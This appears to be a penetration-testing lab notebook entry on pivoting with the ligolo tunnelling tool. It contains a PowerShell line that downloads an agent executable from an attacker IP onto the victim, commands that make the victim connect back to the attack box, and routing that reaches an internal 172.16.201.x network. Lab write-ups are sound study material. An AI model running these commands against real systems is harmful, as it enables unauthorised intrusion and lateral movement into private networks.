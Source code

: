 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

Forgot to add here, that we need to run ifconfig to check and see if there are other connections to the box. this was done here, and the connection to the 172.16.201.xx network was found. 

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```

I ran a full scan of all targets last night but was taking a long time. In most cases, I would go thru the data I already had, and look for a box to narrow in on scanning again, As I have experience with this box already, I have gone from my old notes, and saw that I went into the .11 box next. I am avoiding using my old notes to continue on, I want to see what I see with autorecon, and running a narrowed scan on .11

